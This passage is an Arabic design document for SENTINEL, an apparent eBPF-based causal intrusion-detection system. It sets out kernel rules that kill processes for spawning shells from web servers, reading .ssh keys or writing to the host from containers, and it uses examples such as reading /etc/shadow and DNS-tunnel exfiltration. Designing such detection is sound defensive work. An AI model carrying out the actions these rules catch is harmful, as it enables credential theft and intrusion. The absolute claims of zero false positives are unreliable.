









# SENTINEL — الوثيقة الرياضية والمعمارية الكاملة

> **Semantic-causal ENTity Intelligence with Live eBPF Navigation**
> الصياغة الرياضية · المعمارية · الابتكارات · الإضافات · خارطة التنفيذ
>
> الإصدار: 2.0 — المرجع النهائي

---

# الفهرس

1. [الرؤية الفلسفية والمشكلة الجوهرية](#1-الرؤية-الفلسفية)
2. [الطبقة 0 — eBPF Cognitive Sensor Layer](#2-الطبقة-0)
3. [الطبقة 1 — Causal Triple وتمثيل البيانات](#3-الطبقة-1)
4. [الطبقة 2 — Causal Intent Graph (CIG)](#4-الطبقة-2)
5. [الطبقة 3 — Neuro-Symbolic Causal Engine](#5-الطبقة-3)
6. [الطبقة 4 — Intent Inference Engine](#6-الطبقة-4)
7. [الطبقة 5 — Counterfactual Reasoning](#7-الطبقة-5)
8. [الطبقة 6 — Causal Tattoos والذاكرة الخالدة](#8-الطبقة-6)
9. [الطبقة 7 — Zero-Latency Deception Fabric](#9-الطبقة-7)
10. [الطبقة 8 — Immutable Mathematical Anchor](#10-الطبقة-8)
11. [الطبقة 9 — Decision Engine وشجرة القرار](#11-الطبقة-9)
12. [الابتكار الأصيل — Causal Attention Mechanism](#12-causal-attention)
13. [الإضافات المقترحة الجديدة](#13-الإضافات)
14. [جداول المقارنة الكاملة](#14-المقارنات)
15. [التدفق الكامل من Syscall إلى قرار](#15-التدفق)
16. [خارطة التنفيذ التقنية](#16-خارطة-التنفيذ)

---

# 1. الرؤية الفلسفية والمشكلة الجوهرية

## 1.1 المشكلة التي لم يحلها أحد

كل نظام كشف تهديدات موجود اليوم يعتمد على سؤال واحد:

> **"هل هذا السلوك يختلف عما رأيناه من قبل؟"**

هذا السؤال — رغم بساطته — هو **أصل كل الثغرات** في أنظمة الكشف الحديثة:

```
┌─────────────────────────────────────────────────────────┐
│                   لماذا يفشل Anomaly Detection؟          │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  المهاجم الذكي يتنكر كسلوك طبيعي (Mimicry Attack)      │
│  ↓                                                      │
│  النظام يرى: "هذا يشبه nginx العادي" → ALLOW            │
│  ↓                                                      │
│  الحقيقة: nginx يسرّب بيانات عبر DNS tunneling          │
│  ↓                                                      │
│  النتيجة: الهجوم ينجح بنسبة 100%                        │
│                                                         │
│  ────────────────────────────────────────────────────    │
│                                                         │
│  ورقة Mimicry Attack (NDSS 2023) أثبتت:                 │
│  "100% من أنظمة الكشف يمكن خداعها بدون تغيير            │
│   منطق الهجوم — فقط بجعله يبدو طبيعياً"                │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 1.2 التحوّل الفلسفي لـ SENTINEL

SENTINEL لا يسأل "هل هذا شاذ؟" — بل يسأل:

> **"هل يوجد تفسير سببي منطقي (benign) لهذه السلسلة من الأحداث؟"**

```
┌─────────────────────────────────────────────────────────┐
│           الفرق بين السؤالين — مثال عملي                 │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  الحدث: nginx → read(/etc/shadow)                       │
│                                                         │
│  السؤال التقليدي:                                       │
│  "هل nginx قرأ /etc/shadow من قبل؟"                     │
│  → إذا فعل ذلك مرة واحدة في الـ training → عادي!       │
│  → المهاجم يقرأه مرة في الـ training ← Data Poisoning  │
│                                                         │
│  سؤال SENTINEL:                                         │
│  "ما السبب المنطقي الذي يجعل nginx يقرأ /etc/shadow?" │
│  → nginx web server لا يحتاج كلمات مرور المستخدمين     │
│  → لا يوجد تفسير سببي benign ← ALERT                  │
│  → لا يهم كم مرة حدث في الـ training                   │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 1.3 الفجوات الأربع والحلول

```
┌──────────────────────┬──────────────────────────┬──────────────────────────────┐
│      الفجوة          │     الوضع الحالي         │     حل SENTINEL              │
├──────────────────────┼──────────────────────────┼──────────────────────────────┤
│ 1. مصدر البيانات     │ Audit logs على disk      │ eBPF ring buffer مباشر       │
│                      │ بطيء + محدود              │ من kernel ← microseconds     │
├──────────────────────┼──────────────────────────┼──────────────────────────────┤
│ 2. Mimicry Attack    │ 100% من الأنظمة تُخدع    │ Causal Intent لا يُخفى       │
│                      │                          │ بإضافة ضجيج                  │
├──────────────────────┼──────────────────────────┼──────────────────────────────┤
│ 3. APT النائم        │ السلسلة السببية تضيع     │ Causal Tattoos تتذكر          │
│                      │ بعد reboot               │ للأبد عبر أشهر               │
├──────────────────────┼──────────────────────────┼──────────────────────────────┤
│ 4. Data Poisoning    │ لا نظام يراقب نفسه       │ Immutable Mathematical        │
│                      │                          │ Anchor خارج النموذج           │
└──────────────────────┴──────────────────────────┴──────────────────────────────┘
```

## 1.4 مخطط الفلسفة الكاملة



---

# 2. الطبقة 0 — eBPF Cognitive Sensor Layer

## 2.1 ما هو eBPF؟

eBPF (extended Berkeley Packet Filter) هو تقنية تسمح بتشغيل برامج صغيرة **داخل نواة Linux** بأمان. هذا يعني:

```
┌─────────────────────────────────────────────────────────┐
│                    Linux Kernel                         │
│  ┌─────────────────────────────────────────────────┐    │
│  │              eBPF Virtual Machine               │    │
│  │  ┌───────────┐  ┌───────────┐  ┌───────────┐   │    │
│  │  │ Program 1 │  │ Program 2 │  │ Program 3 │   │    │
│  │  │ (syscall  │  │ (network  │  │ (file     │   │    │
│  │  │  monitor) │  │  monitor) │  │  monitor) │   │    │
│  │  └─────┬─────┘  └─────┬─────┘  └─────┬─────┘   │    │
│  │        │              │              │          │    │
│  │        ▼              ▼              ▼          │    │
│  │  ┌─────────────────────────────────────────┐    │    │
│  │  │           eBPF Ring Buffer              │    │    │
│  │  │    (zero-copy to userspace)             │    │    │
│  │  └──────────────────┬──────────────────────┘    │    │
│  └─────────────────────┼───────────────────────────┘    │
│                        │                                │
├────────────────────────┼────────────────────────────────┤
│      Userspace         │                                │
│                        ▼                                │
│  ┌─────────────────────────────────────────────────┐    │
│  │        SENTINEL Rust Daemon (tokio)             │    │
│  └─────────────────────────────────────────────────┘    │
└─────────────────────────────────────────────────────────┘
```

## 2.2 لماذا eBPF وليس Audit Logs؟

```
┌──────────────────────┬──────────────────────┬──────────────────────┐
│    المعيار            │    Linux Audit       │    eBPF              │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ كيف يعمل             │ يكتب على disk        │ ring buffer في RAM   │
│                      │ ثم يُقرأ             │ zero-copy مباشر      │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ Latency              │ milliseconds-seconds │ nanoseconds          │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ المعلومات المتاحة    │ syscall name + args  │ كل شيء: args,        │
│                      │                      │ return value,        │
│                      │                      │ process tree,        │
│                      │                      │ network state        │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ التصفية              │ بعد الجمع (userspace)│ قبل الإرسال (kernel) │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ التدخل               │ ❌ قراءة فقط          │ ✅ يمكنه تعديل       │
│                      │                      │ syscall responses    │
├──────────────────────┼──────────────────────┼──────────────────────┤
│ من يستخدمه           │ KAIROS, FLASH, MAGIC │ SENTINEL فقط        │
└──────────────────────┴──────────────────────┴──────────────────────┘
```

## 2.3 الابتكار — eBPF كطبقة معرفية نشطة

الفرق الجوهري: كل الأنظمة تستخدم eBPF كـ **data collector سلبي**. SENTINEL يستخدمه كـ **طبقة ذكاء نشطة** بأربعة مكونات:

### المكون 1 — Causal Compressor

```
المشكلة:
  nginx يفتح access.log → 10,000 مرة/ثانية
  إرسال 10,000 event = إغراق الـ userspace

الحل — Causal Compression:
  ┌─────────────────────────────────────────────┐
  │  eBPF Causal Compressor                     │
  │                                             │
  │  Rule: إذا (subject, action, object)       │
  │        تكرر مع نفس الـ context              │
  │        → عدّاد++ (لا ترسل event جديد)       │
  │                                             │
  │  Rule: إذا (subject, action, object)       │
  │        لم يحدث من قبل أو context مختلف      │
  │        → أرسل event فوراً                   │
  │                                             │
  │  مثال:                                      │
  │  nginx → read(access.log) × 10,000          │
  │  = event واحد + counter = 10,000            │
  │                                             │
  │  nginx → read(/etc/shadow) × 1              │
  │  = ❗ event جديد يُرسل فوراً                │
  └─────────────────────────────────────────────┘
```

**المعادلة الرسمية:**

$$\text{Compress}(e_t) = \begin{cases} \text{Counter}(e_{prev}) += 1 & \text{if } \text{CausalHash}(e_t) = \text{CausalHash}(e_{prev}) \\ \text{Emit}(e_t) & \text{otherwise} \end{cases}$$

$$\text{CausalHash}(e) = H(\text{subject} \| \text{action} \| \text{object} \| \text{context\_class})$$

حيث $H$ = دالة hash سريعة (مثل xxHash) و`context_class` = تصنيف السياق (ليس السياق الكامل) لتجنب hash collisions.

**نسبة الضغط المتوقعة:**

```
بيئة production نموذجية:
  Raw events/sec:        ~500,000
  بعد Causal Compression: ~5,000    (نسبة ضغط 99%)
  Events مهمة فعلاً:     ~50       (1% من المضغوط)
```

### المكون 2 — Axiom Enforcer L0

```
┌─────────────────────────────────────────────┐
│  Axiom Enforcer L0 — داخل الـ kernel        │
│                                             │
│  Universal Axioms مُبرمجة في eBPF:          │
│                                             │
│  AXIOM_001: web_server ≠ spawn(shell)       │
│    nginx/apache → exec(bash/sh) = ❌ KILL    │
│                                             │
│  AXIOM_002: db_server ≠ read(ssh_keys)      │
│    mysql/postgres → read(.ssh/) = ❌ KILL    │
│                                             │
│  AXIOM_003: container ≠ write(host_fs)      │
│    أي process في container →                │
│    write(/host/...) = ❌ KILL                │
│                                             │
│  ⚡ Latency: nanoseconds                    │
│  🎯 False Positive Rate: 0%                 │
│     (لأن هذه المواقف مستحيلة منطقياً)       │
└─────────────────────────────────────────────┘
```

**الصياغة الرسمية:**

$$\text{L0\_Decision}(e) = \begin{cases} \text{KILL} & \text{if } \exists a \in \mathcal{A}_{universal} : \text{violates}(e, a) \\ \text{PASS} & \text{otherwise} \end{cases}$$

$$\mathcal{A}_{universal} = \{a_1, a_2, ..., a_n\} \quad \text{حيث كل } a_i \text{ مستحيل في أي سياق}$$

### المكون 3 — Tattoo Writer

```
عندما يمر event "رمادي" (ليس مستحيلاً ولكن مشبوه):

  ┌──────────────────────────────────────────┐
  │  Tattoo Writer (في kernel)               │
  │                                          │
  │  1. يحسب hash الكيان + السلسلة السببية   │
  │  2. يوقّعه بـ private key مخزّن في kernel │
  │  3. يربطه بالـ tattoo السابق (chain)      │
  │  4. يخزّنه في eBPF map (RAM)             │
  │                                          │
  │  ⚠️ المفتاح الخاص في kernel space:       │
  │  → لا يمكن لأي userspace process         │
  │    تزوير أو تعديل tattoo                 │
  └──────────────────────────────────────────┘
```

### المكون 4 — Deception Interceptor

```
عندما يُطلب من L0 تفعيل الخداع (بناءً على أمر من L4):

  المهاجم يطلب: read("/etc/shadow")
  
  بدون Deception:
    kernel → يعطيه /etc/shadow الحقيقي → 💀
  
  مع SENTINEL Deception:
    eBPF يعترض الـ syscall
    → يستبدل المحتوى ببيانات وهمية
    → نفس الـ timing (لا فرق قابل للقياس)
    → المهاجم يظن أنه نجح
    → SENTINEL يراقب ماذا يفعل بالبيانات
    → يكشف نيته الكاملة
```

## 2.4 مخطط L0 الكامل



---

# 3. الطبقة 1 — Causal Triple وتمثيل البيانات

## 3.1 تعريف الـ Causal Triple

كل حدث من eBPF يُحوَّل لـ **Causal Triple** — وهي الوحدة الأساسية للمعلومات في SENTINEL:

```
┌─────────────────────────────────────────────────────────────────┐
│                      Causal Triple                              │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  الشكل: (Subject, Action, Object, Timestamp, Context, Depth)  │
│                                                                 │
│  ┌──────────────┬───────────────────────────────────────────┐   │
│  │ Subject      │ الكيان الذي يقوم بالفعل                   │   │
│  │              │ (process, thread, container)               │   │
│  ├──────────────┼───────────────────────────────────────────┤   │
│  │ Action       │ نوع الفعل (read, write, exec, connect,   │   │
│  │              │ send, recv, fork, mmap, ioctl)            │   │
│  ├──────────────┼───────────────────────────────────────────┤   │
│  │ Object       │ الهدف (file, socket, pipe, device)        │   │
│  │              │                                           │   │
│  ├──────────────┼───────────────────────────────────────────┤   │
│  │ Timestamp    │ وقت الحدث بدقة nanosecond (u64)           │   │
│  │              │                                           │   │
│  ├──────────────┼───────────────────────────────────────────┤   │
│  │ Context      │ السياق السببي الكامل:                     │   │
│  │              │ {parent_process, uid, gid, namespace,     │   │
│  │              │  cgroup, capabilities, env_vars,          │   │
│  │              │  cmdline, fd_table_snapshot}              │   │
│  ├──────────────┼───────────────────────────────────────────┤   │
│  │ CausalDepth  │ كم خطوة سببية من أقرب entry point        │   │
│  │              │ (depth=0 = syscall مباشر من المستخدم)     │   │
│  │              │ (depth=5 = نتيجة سلسلة من 5 أحداث)       │   │
│  └──────────────┴───────────────────────────────────────────┘   │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

## 3.2 أمثلة عملية

```
مثال 1 — سلوك طبيعي:
  (nginx, read, /var/www/index.html, t=1000, 
   {parent=systemd, uid=www-data, ns=default}, depth=1)

مثال 2 — سلوك مشبوه:
  (nginx, read, /etc/shadow, t=1001, 
   {parent=bash, uid=root, ns=default}, depth=3)
   
   لاحظ الفرق:
   ✗ parent=bash (nginx العادي parent=systemd)
   ✗ uid=root (nginx العادي uid=www-data)
   ✗ depth=3 (nginx العادي depth=1)

مثال 3 — هجوم متقدم (Mimicry):
  (nginx, read, /etc/shadow, t=1002, 
   {parent=systemd, uid=www-data, ns=default}, depth=1)
   
